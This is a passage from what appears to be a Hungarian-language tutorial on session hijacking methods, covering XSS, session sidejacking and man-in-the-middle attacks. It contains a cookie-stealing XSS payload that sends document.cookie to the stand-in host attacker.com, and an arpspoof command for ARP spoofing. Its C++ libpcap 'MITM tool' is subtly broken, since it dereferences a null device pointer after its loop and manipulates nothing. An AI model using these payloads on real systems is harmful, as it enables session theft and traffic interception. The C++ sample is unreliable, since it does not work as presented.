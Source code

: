 ##### 3. Cross-Site Scripting (XSS)
Az XSS egy gyakori módszer, amely során a támadó rosszindulatú scriptet helyez el egy weboldalban. Ez a script a felhasználóhoz kerül és futtatásra kerül a felhasználó böngészőjében, ami lehetővé teszi a session ID megszerzését.

Példa rosszindulatú JS kódra:
```javascript
<script>
  document.write('<img src="http://attacker.com/steal.php?cookie=' + document.cookie + '" />');
</script>
```

##### 4. Session Sidejacking
A session sidejackingnál a támadó a csatlakozott felhasználó és a szerver közötti titkosítatlan (vagy gyengén titkosított) kapcsolatot célozza meg. A támadó például ARP-spoofinggal vagy DNS poisoninggal beavatkozhat a felhasználó kommunikációjába, és megszerezheti a session ID-t.

ARP-Spoofing eszközök:
- `arpspoof` (Linux alatt):
  ```bash
  arpspoof -i eth0 -t target_ip gateway_ip
  ```

##### 5. Man-in-the-Middle (MITM) Attack
Ebben a támadásban a támadó közvetlenül beavatkozik a két kommunikáló fél közötti kapcsolattartási folyamatba, lehetővé téve számára a session azonosító és más érzékeny információk elfogását és módosítását.

C++ kódrészlet egyszerű MITM eszköz:
```cpp
#include <iostream>
#include <pcap.h>

// Packet handler callback function
void packetHandler(u_char* userData, const struct pcap_pkthdr* pkthdr, const u_char* packet) {
    std::cout << "Packet captured!\n";
    // Implement packet analysis and manipulation here
}

int main() {
    pcap_if_t* alldevs;
    pcap_if_t* d;
    char errbuf[PCAP_ERRBUF_SIZE];
    
    if (pcap_findalldevs(&alldevs, errbuf) == -1) {
        std::cerr << "Error finding devices: " << errbuf << "\n";
        return 1;
    }

    for(d = alldevs; d != nullptr; d = d->next) {
        std::cout << "Device: " << d->name << "\n";
    }

    pcap_t* handle = pcap_open_live(d->name, BUFSIZ, 1, 1000, errbuf);
    if (handle == nullptr) {
        std::cerr << "Error opening device: " << errbuf << "\n";
        return 1;
    }

    pcap_loop(handle, 0, packetHandler, nullptr);

    pcap_close(handle);
    pcap_freealldevs(alldevs);

    return 0;
}
```
